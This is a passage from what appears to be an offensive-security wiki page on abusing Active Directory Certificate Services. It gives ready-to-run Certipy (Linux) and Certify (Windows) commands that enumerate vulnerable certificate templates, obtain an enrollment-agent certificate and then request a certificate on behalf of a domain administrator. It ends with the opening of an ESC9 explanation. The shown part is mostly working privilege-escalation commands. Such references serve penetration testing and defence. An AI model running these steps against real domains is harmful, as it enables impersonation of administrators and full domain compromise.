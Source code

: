 ```bash
certipy req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'vulnerable template'
```

Then, the issued certificate can be used to request another certificate permitting `Client Authentication` on behalf of another user.

```bash
certipy req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'User' -on-behalf-of 'domain\domain admin' -pfx 'user.pfx'
```

{% hint style="info" %}
By default, Certipy uses LDAPS, which is not always supported by the domain controllers. The `-scheme` flag can be used to set whether to use LDAP or LDAPS.
{% endhint %}
{% endtab %}

{% tab title="Windows" %}
From Windows systems, the [Certify](https://github.com/GhostPack/Certify) (C#) tool can be used.

```batch
# Find vulnerable/abusable certificate templates using default low-privileged group
Certify.exe find /vulnerable

# Find vulnerable/abusable certificate templates using all groups the current user context is a part of:
Certify.exe find /vulnerable /currentuser
```

Once a vulnerable template is found, a request shall be made to obtain a certificate specifying the **Certificate Request Agent** EKU.

```batch
Certify.exe request /ca:'domain\ca' /template:"Vulnerable template"
```

Then, the issued certificate can be used to request another certificate permitting `Client Authentication` on behalf of another user.

```batch
Certify.exe request /ca:'domain\ca' /template:"User" /onbehalfon:DOMAIN\Admin /enrollcert:enrollmentAgentCert.pfx /enrollcertpw:Passw0rd!
```
{% endtab %}
{% endtabs %}

### No security extension (ESC9)

To understand this privilege escalation, it is recommended to know how certificate mapping is performed. It is presented in [this section](certificate-templates.md#certificate-mapping).

If the certificate attribute `msPKI-Enrollment-Flag` contains the flag `CT_FLAG_NO_SECURITY_EXTENSION`, the `szOID_NTDS_CA_SECURITY_EXT` extension will not be embedded, meaning that even with `StrongCertificateBindingEnforcement` set to `1`, the mapping will be performed similarly as a value of `0` in the registry key.
